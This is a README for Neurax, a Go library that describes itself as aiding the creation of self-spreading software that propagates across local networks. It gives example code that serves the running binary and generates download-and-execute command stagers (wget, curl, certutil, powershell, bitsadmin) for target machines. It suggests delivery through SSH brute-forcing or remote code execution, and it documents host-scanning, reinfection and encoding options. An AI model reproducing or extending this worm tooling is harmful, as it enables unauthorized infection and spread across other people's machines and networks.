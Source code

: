 <h1 align="center"> Neurax </h1> <br>

<p align="center">
  <a>
    <img alt="Neurax" title="Neurax" src="neurax.png">
  </a>
</p>

<p align="center"> A library that aids in creation of self-spreading software</p>

## Usage
With help of Neurax, Golang binaries can spread on local network without using any external servers.

Diverse config options and command stagers allow rapid propagation across various wireless environments.
### Example code

```go
package main
import "github.com/redcode-labs/Neurax"

func main(){

  //Specify serving port and stager to use
  neurax_config.port = 5555
  neurax_config.stager = "wget"

  //Start a server that exposes the current binary in the background
  go neurax_server()
  
  //Create a command stager that should be launched on target machine
  //It will download, decode and execute the binary
  cmd_stager := neurax_stager()

  /* Now you have to somehow execute the command generated above.
     You can use SSH bruteforce, some RCE or whatever else you want ;> */

}
```

### List of config entries

```
neurax_config.stager           - Name of the command stager to use (default: random, platform-compatible)
                                 Available stagers: certutil, powershell, bitsadmin, wget, curl
neurax_config.port             - Port to serve on (default: random from 2222 to 9999)
neurax_config.platform         - Platform to target, currently only Windows and Linux (default: detected automatically)
neurax_config.path             - The path under which binary is saved on the host (default: random)
neurax_config.file_name        - Name under which downloaded binary should be served and then saved (default: random)
neurax_config.base64           - Encode the transferred binary in base64 (default: false)
neurax_config.prevent_reinfect - Indicates whether port 7123 should be opened to prevent multiple infections of the same host (default: true)
neurax_config.required_port    - Neurax_scan() treats host as active only when it has a specific port opened (default: none)
neurax_config.scan_passive     - Neurax_scan() detects hosts using passive ARP monitoring (default: false)
neurax_config.cidr             - Neurax_scan() scans this CIDR (default: local IP + "\24")
neurax_config.threads          - Number of threads to use for neurax_scan() (default: 10)
neurax_config.full_range       - Neurax_scan() scans all ports of target host to determine if it is active (default: from 19 to 300)
```

### Finding new targets
Function `neurax_scan(c chan string)` enables detection of active hosts on local network.
It accepts a channel of type string as it's only argument and should be launched as a goroutine.
Any scanned host will be sent through that channel as soon as it was classified as active.
Host is treated as active when it has at least 1 open port + fullfils conditions specified within `neurax_config`.

## Artwork credits

====> [Seto01](https://www.deviantart.com/seto01/art/New-disease-parasite-438032692) <====

## License
This software is under [MIT license](https://en.wikipedia.org/wiki/MIT_License)
